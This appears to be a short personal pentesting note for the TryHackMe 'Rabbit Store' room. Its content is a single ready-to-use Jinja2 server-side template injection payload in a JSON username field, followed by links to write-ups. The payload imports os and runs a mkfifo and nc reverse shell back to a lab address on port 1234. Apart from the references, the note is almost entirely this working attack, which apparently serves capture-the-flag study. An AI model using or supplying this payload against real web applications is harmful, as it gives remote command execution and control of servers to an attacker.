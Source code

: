 
2025-04-03 14:44

Source: 

Tags: 


Jinja [[SSTI]] 
```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.62.140 1234 >/tmp/f').read() }}"}

```
### References
[TryHackMe | Rabbit Store](https://tryhackme.com/room/rabbitstore)

[Flask Jinja2 Pentesting | Exploit Notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)
[Rabbit Store | THM Writeup :: CyberJagadeesh - Learn Cyber Security](https://cyberjagadeesh.github.io/posts/thm/rabbitstore/writeup/)
[Reverse Shelling via Jinja2 SSTI using ngrok | by V!hanga D | Medium](https://medium.com/@dvihanga32/reverse-shell-via-jinja2-ssti-using-ngrok-514f6641b2ee)
https://www.rapid7.com/db/modules/exploit/multi/misc/erlang_cookie_rce/
https://jaxafed.github.io/posts/tryhackme-rabbit_store/#shell-as-root